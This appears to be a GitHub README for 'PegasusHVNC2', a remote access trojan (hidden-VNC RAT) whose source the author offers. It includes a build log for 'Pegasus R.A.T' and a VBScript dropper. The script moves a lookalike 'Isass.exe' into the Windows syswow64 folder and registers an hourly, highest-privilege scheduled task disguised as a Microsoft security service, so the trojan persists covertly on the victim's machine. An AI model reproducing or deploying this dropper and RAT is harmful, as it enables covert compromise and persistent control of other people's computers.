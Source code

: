 # PegasusHVNC2
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

I would kindly ask you ***not to bother me*** with questions like it won't compile help
or if you get that obviuos error like damn resource is missing heeeeelp - simply ***I don't care(especially for statements I can't wait, I want and similar. Feel free to purchase garbage mentioned above or reverse yourself).***
***Im not*** posting this so kids could play hackers, ***nor do I support reversed projects.***
Anyways if one decide to msg me with similar bs, please before you do download [ILSpy](https://github.com/icsharpcode/ILSpy/).
IF one manage to compile it without issues feel free to contact me if not go back to ***Hello world apps.***

▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄


![Screenshot_1](https://user-images.githubusercontent.com/1867768/164581897-d8b3750c-90e5-49b2-9ea5-35bd7f3d9f98.png)

[Except ones compiled from full source ;)]
https://streamable.com/ghpv5y
```
Build started...
1>------ Build started: Project: Pegasus R.A.T, Configuration: Release Any CPU ------
1>  Pegasus R.A.T -> S:\iPwnNoobPony\Pegasus42\Source\Pegasus R.A.T\bin\Release\Pegasus R.A.T.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```
![badpony](https://user-images.githubusercontent.com/1867768/164579605-c4a11e62-87d5-48eb-bd95-f2dd976ac840.png)
```
on error resume next
set o=createobject("wscript.shell")
'f=o.ExpandEnvironmentStrings("%appdata%\Pantheon")
f=o.ExpandEnvironmentStrings("%appdata%")
c = "cmd /c md " & f 
'o.run c,0,1
WScript.Sleep(1000)
'c = "cmd /c move " & chr(34) & f & "\..\Isass.exe" & chr(34) & " " & chr(34) & f & chr(34)
c = "cmd /c move " & chr(34) & f & "\Isass.exe" & chr(34) & " " & chr(34) & "C:\windows\syswow64" & chr(34)
o.run c,0,1
'c = "schtasks /create /f /tn " & chr(34) & "OneDrive.{7d01bf11-6e05-4dfd-8936-9366c7d70b4d}" & chr(34)
c = "schtasks /create /f /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34)
c = c & " /sc hourly /rl highest /tr " & chr(34) & "c:\windows\syswow64\Isass.exe" & chr(34)
o.run c,0,1
Wscript.Sleep(2000)
o.run "schtasks /run /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34),0,0
```

Keep up the good work ^^

![lol](https://user-images.githubusercontent.com/1867768/163475489-3408e8ac-d47d-4648-9329-caf9790674dd.png)
![1](https://user-images.githubusercontent.com/1867768/164018731-957cbd11-6777-4ba9-8bb9-ce190be2f0ac.png)
![2](https://user-images.githubusercontent.com/1867768/164018740-5a82aa39-c27f-4476-b535-c3a01a7cfbcc.png)
![3](https://user-images.githubusercontent.com/1867768/164018744-04966fbd-b5e7-4a8d-809a-98135a585df6.png)
![4](https://user-images.githubusercontent.com/1867768/164018747-f2e92ce9-ac78-45f6-b8b8-551ff637f5dc.png)
